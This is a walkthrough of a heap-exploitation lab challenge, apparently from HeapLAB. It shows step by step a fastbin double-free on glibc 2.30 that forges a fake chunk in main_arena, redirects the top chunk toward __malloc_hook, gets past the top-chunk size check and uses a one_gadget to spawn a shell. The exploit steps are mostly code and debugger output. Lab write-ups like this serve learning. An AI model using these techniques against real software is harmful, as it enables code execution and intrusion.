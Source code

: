 ## Attacking fastbin and avoid 0x70 protection
*****************************************
### First Fastbin

1.- Write fake size
```
malloc(24,p64(0x61))
```
![imagen1.png](https://raw.githubusercontent.com/ivanmedina/Pwning/master/HEAP/HeapLAB/challenge-fastbin_dup/assets/Imagen1.png)

2.- Write fake size in main arena
```
malloc(24,'C'*48)
malloc(24,'D'*48)
```
![imagen2.png](https://raw.githubusercontent.com/ivanmedina/Pwning/master/HEAP/HeapLAB/challenge-fastbin_dup/assets/Imagen2.png)

### Second Fastbin for link fake chunk in fastbins list

3.-Fastbin
```
chunk_J=malloc(0X58,'C'*48)
chunk_K=malloc(0x58,'D'*48)
free(chunk_J)
free(chunk_K)
free(chunk_J)
```
![imagen3.png](https://raw.githubusercontent.com/ivanmedina/Pwning/master/HEAP/HeapLAB/challenge-fastbin_dup/assets/Imagen3.png)

4.- So now we can write what we want to link
```
malloc(0x58, p64( libc.sym.main_arena + 0x20 ))
```

![imagen4.png](https://raw.githubusercontent.com/ivanmedina/Pwning/master/HEAP/HeapLAB/challenge-fastbin_dup/assets/Imagen4.png)

5.- Move fake chunk to the fastbins and put it on the head of 0x60 fastbins
```
malloc(0x58,b'L'*8)
malloc(0x58,b'M'*8)
```
![imagen5.png](https://raw.githubusercontent.com/ivanmedina/Pwning/master/HEAP/HeapLAB/challenge-fastbin_dup/assets/Imagen5.png)

6.- Write in main arena...

To write 0x61 in the main arena and match with 0x60 fastbin we allocate 0x48 bytes instead of 0x24 and we'll have the target in 0x60 fastbins and in main arena we will see the fake chunk crafted with size field and foreword pointer.

![imagen6.png](https://raw.githubusercontent.com/ivanmedina/Pwning/master/HEAP/HeapLAB/challenge-fastbin_dup/assets/Imagen6.png)

Requests a chunk of 0x60 size to write in the main arena but before libc will check that the size field of fake chunk is in the range allowed for 0x60 fastbins, thats why we write the 0x61, if we request other 0x60 chunk will give us our fake chunk and we can write in main_arena.

```
malloc(0x58,b'N'*8)
```


![imagen7.png](https://raw.githubusercontent.com/ivanmedina/Pwning/master/HEAP/HeapLAB/challenge-fastbin_dup/assets/Imagen7.png)


7.- Overwrite top chunk pointer with malloc_hook

The offset of top chunk is 48 bytes...

![imagen9.png](https://raw.githubusercontent.com/ivanmedina/Pwning/master/HEAP/HeapLAB/challenge-fastbin_dup/assets/Imagen9.png)

```
malloc(0x58,b'Y'*48+p64(libc.sym.__malloc_hook -16))
```

![imagen10.png](https://raw.githubusercontent.com/ivanmedina/Pwning/master/HEAP/HeapLAB/challenge-fastbin_dup/assets/Imagen10.png)

Okey, so if we request a chunk that is not in fastbins malloc will return us a chunk from top chunk.

![imagen11.png](https://raw.githubusercontent.com/ivanmedina/Pwning/master/HEAP/HeapLAB/challenge-fastbin_dup/assets/Imagen11.png)

8.- Bypass top chunk mitigation

We are using glibc 2.30 for this challange and size version 2.29 top chunk mitigation was added

```
pwndbg> backtrace
pwndbg> f 4
pwndbg> context code
```

![imagen12.png](https://raw.githubusercontent.com/ivanmedina/Pwning/master/HEAP/HeapLAB/challenge-fastbin_dup/assets/Imagen12.png)

```
pwndbg>p/x av->system_mem
$1 = 0x21000
```

We can go a little further back and take advantage of the alignment that is not checked...

![imagen13.png](https://raw.githubusercontent.com/ivanmedina/Pwning/master/HEAP/HeapLAB/challenge-fastbin_dup/assets/Imagen13.png)

Great, this size is a size allowed, if request a chunk ...

```
malloc(0x28,b'Y'*19+p64(0xdeadbeef))
malloc(0x28,b'')
```

![imagen14.png](https://raw.githubusercontent.com/ivanmedina/Pwning/master/HEAP/HeapLAB/challenge-fastbin_dup/assets/Imagen14.png)

9.- One gadget

```
malloc(0x28,b'Y'*19+p64(libc.address + 0xe1fa1))
malloc(0x28,b'')
```

![imagen15.png](https://raw.githubusercontent.com/ivanmedina/Pwning/master/HEAP/HeapLAB/challenge-fastbin_dup/assets/Imagen15.png)

Is taking 'LLLLLLLLDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDD' as parameter and the execution fails, but it is something we control, maybe if we pass other argument

![imagen16.png](https://raw.githubusercontent.com/ivanmedina/Pwning/master/HEAP/HeapLAB/challenge-fastbin_dup/assets/Imagen16.png)

Let's change the line: 'malloc(0x58,b'L'*8)' to 'malloc(0x58,b'-s\0')'

![imagen17.png](https://raw.githubusercontent.com/ivanmedina/Pwning/master/HEAP/HeapLAB/challenge-fastbin_dup/assets/Imagen17.png)

and shell!